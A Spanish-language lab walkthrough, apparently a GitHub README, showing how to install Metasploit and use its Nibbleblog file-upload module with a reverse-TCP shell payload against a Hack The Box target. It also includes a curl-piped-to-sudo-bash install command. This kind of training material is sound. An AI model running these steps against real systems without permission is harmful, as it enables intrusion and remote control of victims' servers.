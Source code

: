 # Metasploit Framework - Explotación de Nibbleblog

### Exención de responsabilidad

Este contenido tiene fines educativos y está diseñado para ser utilizado únicamente en entornos controlados y con permisos explícitos.
Hack The Box y otras plataformas similares proporcionan entornos de práctica legalmente autorizados, y se debe asegurar que se cuenta con los permisos adecuados antes de realizar cualquier prueba de penetración o hacking ético.

El autor de esta publicación no se responsabiliza por el uso indebido de las técnicas y herramientas descritas fuera de los entornos legales y éticos correspondientes.

---

## Índice

1. [Usos y consideraciones de Metasploit Framework](#usos-y-consideraciones-de-metasploit-framework)
2. [Descargar Metasploit Framework](#descargar-metasploit-framework)
3. [Uso de Metasploit Framework](#uso-de-metasploit-framework)


## Usos y consideraciones de Metasploit Framework

Metasploit es una herramienta de código abierto utilizada por profesionales de seguridad para probar la robustez de las redes y sistemas mediante la explotación de vulnerabilidades conocidas.

---

### 1. Descargar Metasploit Framework

#### A) Web oficial

https://www.metasploit.com/

	- Acude a la página oficial de la herramienta y descarga la versión 'Open source'.

#### B) En Linux usando terminal 

##### B.1. Instalar dependencias

Primero, asegúrate de tener las dependencias necesarias.
Si estás en Ubuntu/Debian puedes instalar las dependencias con:

```bash
sudo apt update
sudo apt install curl wget git build-essential libssl-dev libpq-dev libreadline-dev libpcap-dev libsqlite3-dev
```

##### B.2. Instalar Metasploit Framework

Puedes instalar Metasploit Framework usando el script de instalación proporcionado por el proyecto rapid7 o desde los repositorios oficiales.

### Método 1: Usar el script de instalación (recomendado) 

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/msfvenom-installer.sh | sudo bash
```

### Método 2: Usar apt (si está disponible en los repositorios)

```bash 
sudo apt install metasploit-framework
```

### 2. Uso de Metasploit Framework

#### 2.1. Ejecutar Metasploit Framework

```bash
msfconsole
```

Esto debe de abrir la consola interactiva de Metasploit (msfconsole), donde puedes empezar a usar la herramienta.

![Captura de pantalla](./imagenes/msfconsole.png)

#### 2.2. Buscar módulos de exploits

Para buscar exploit disponibles usamos el comando 'search' seguido de la vulnerabilidad/servicio a explotar. Vemos dos ejemplos para Wordpress y Nibbleblog

```bash
search Wordpress
```

```bash
search Nibbleblog
```

![Captura de pantalla](./imagenes/search.png)

#### 2.3. Seleccionar un exploit

Para usar un exploit específico, primero debes seleccionarlo con el comando `use`
 
```bash
use 0
```

```bash
use exploit/multi/http/nibbleblog_file_upload
```
Dos formas válidas de seleccionar un exploit (el nº 0 hace referencia al índice del exploit, miestras que la segunda forma es nombrando la ruta absoluta del exploit)

![Captura de pantalla](./imagenes/use.png)

#### 2.4. Ver los parámetros del exploit

Cuando seleccionas un exploit, tienes que ver los parámetros necesarios (como la dirección IP de la víctima, puertos, etc.) con `show options`:

##### 2.4.1 Parámetros del Exploit

- **RHOST**: Dirección IP del objetivo.
- **LHOST**: Dirección IP de la máquina atacante (tu propia máquina).
- **LPORT**: Puerto de escucha para la conexión reversa.
- **targeturi**: Especifica la ruta del servicio web que vamos a explotar, en este caso, `nibbleblog` (por defecto o nombre de directorio).


```bash
show options
```

![Captura de pantalla](./imagenes/show_options.png)
	
#### 2.5. Configurar los parámetros del exploit

Configuramos cada parametro que este marcado como 'yes' con el comando `set`

Establecemos la opción 'rhosts' como la dirección IP de destino (IP víctima)

```bash
set RHOST 10.129.126.4
```

Establecemos la opción 'lhosts' como la dirección IP atacante (en HTB usar la IP tun0 propia de la VPN)

```bash
set LHOST 10.10.12.4
```

Establecemos la opción 'username' con el nombre de usuario de la víctima (obviamente requiere de su conocimiento, bien por ser proporcionada o por extracción) 

```bash
set username admin
```

Establecemos la opción 'password' con la contraseña de usuario de la víctima (obviamente requiere de su conocimiento, bien por ser proporcionada o por extracción) 

```bash
set password <contraseña_de_usuario>
```

[!] Cambiar <contraseña_de_usuario> por la correcta de Nibbleblog (para este caso)

Establecemos la opción 'targeturi' con el nombre del servicio a explotar

```bash
set targeturi nibbleblog
```

Una vez, configuradas las distintas opciones señaladas como necesarias (como 'yes') podemos comprobar los cambios usando de nuevo `show options`

#### 2.6. Configurar parámetros de payload (o carga útil)

Cada exploit requiere de un payload, para ver los disponibles podemos usar el comando `show payloads`
 
```bash
show payloads
```

![Captura de pantalla](./imagenes/show_payloads.png)

#### 2.7. Seleccionar un payload

Para usar un payload específico, primero debes seleccionarlo con el comando `use`
 
```bash
use payload 4
```

```bash
use payload generic/shell_reverse_tcp
```
Dos formas válidas de seleccionar un payload (el nº 4 hace referencia al índice del payload, miestras que la segunda forma es nombrando la ruta absoluta del exploit)

Puedes ver la información sobre el payload con el comando `info`

```bash
info generic/shell_reverse_tcp
```

[!] Importante revisar de nuevo `show options` para verificar la configuración

#### 2.8. Ejecutar exploit

Para ejecutar el exploit seleccionado y configurado podemos usar los comandos `run` o `exploit`
 
```bash
run
```

```bash
exploit
```

Despues de ejecutar el exploit, deberíamos de obtener (para este caso) una shell reversa. A partir de aquí sería continuar con la explotación en el grado que se requiera (por ejemplo elevando privilegios)

## Consideraciones Éticas y Legales

Esta documentación se proporciona **exclusivamente con fines educativos**.
Las técnicas y procedimientos descritos están diseñados para ser aplicados en **entornos controlados**, como laboratorios personales o plataformas de formación como Hack The Box.

⚠ **IMPORTANTE:**  
El uso indebido de estos conocimientos en sistemas sin autorización constituye una violación de la ley y puede acarrear consecuencias legales graves.  
Antes de realizar cualquier prueba de seguridad, asegúrate de contar con el **consentimiento expreso** del propietario del sistema.

### Asegúrate de:
- Realizar pruebas solo en máquinas y entornos de **pruebas de penetración legal**.
- Nunca realizar pruebas en sistemas sin tener **permiso explícito** para hacerlo.

Para más información sobre prácticas de hacking ético, puedes revisar los términos y condiciones de Hack The Box en:  
🔗 [https://www.hackthebox.com/terms](https://www.hackthebox.com/terms)  
